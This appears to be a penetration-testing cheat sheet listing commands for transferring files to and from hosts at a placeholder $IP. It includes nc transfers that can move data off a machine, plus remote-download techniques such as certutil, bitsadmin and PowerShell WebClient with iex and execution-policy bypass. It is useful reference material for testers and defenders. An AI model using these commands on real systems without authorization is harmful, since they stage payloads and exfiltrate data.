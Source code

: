 # File Transfer

| No. | Command |
|-----|---------|
| 1   | `wget http://$IP/file -O /tmp/test.tmp` |
| 2   | `curl http://$IP/file` |
| 3   | `fetch http://$IP/file` |
| 4   | `nc $IP $port > outfile` |
| 5   | `nc -lnvp $port < infile` |
| 6   | `ftp -s:input.txt` |
| 7   | `ftp $ip` |
| 8   | `get $filename` |
| 9   | `sudo apt install python-pyftpdlib` |
| 10  | `sudo python -m pyftpdlib -p 21` |
| 11  | `python -m SimpleHTTPServer 80` |
| 12  | `python -m http.server 80` |
| 13  | `curl -O http://$ip/putty.exe` |
| 14  | `python smbserver.py ata /root/share` |
| 15  | `[WIN+R] \\$ip` |
| 16  | `apt install smbclient` |
| 17  | `smbclient -L $ip` |
| 18  | `smbclient //$ip/ata` |
| 19  | `(new-object System.Net.WebClient).DownloadFile('//$ip/putty.exe', 'd:\\data\\putty.exe')` |
| 20  | `bitsadmin /transfer job //example.com/path/putty.exe F:\\putty.exe` |
| 21  | `php -S 0.0.0.0:80` |
| 22  | `scp $filename user@host:~/path_dir` |
| 23  | `scp $filename $username@$ip:~/` |
| 24  | `python -m pyftpdlib 21` |
| 25  | `ftp $ip` |
| 26  | `bitsadmin /transfer download /priority normal http://$ip/file C:\\output\\path` |
| 27  | `powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile('http://$ip:$port/$filename','C:\\Users\\user\\AppData\\Local\\ack.exe'));}”` |
| 28  | `certutil -urlcache -split -f “http://$ip/$filename" $filename` |
| 29  | `echo $storageDir = $pwd > wget.ps1` <br> `echo $webclient = New-Object System.Net.WebClient >> wget.ps1` <br> `echo $url = "http://$ip/$filename" >> wget.ps1` <br> `echo $filename = "filename" >> wget.ps1`  <br> `echo $webclient.DownloadFile($url,$filename) >> wget.ps1`  |
| 30  | `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File $filename` |
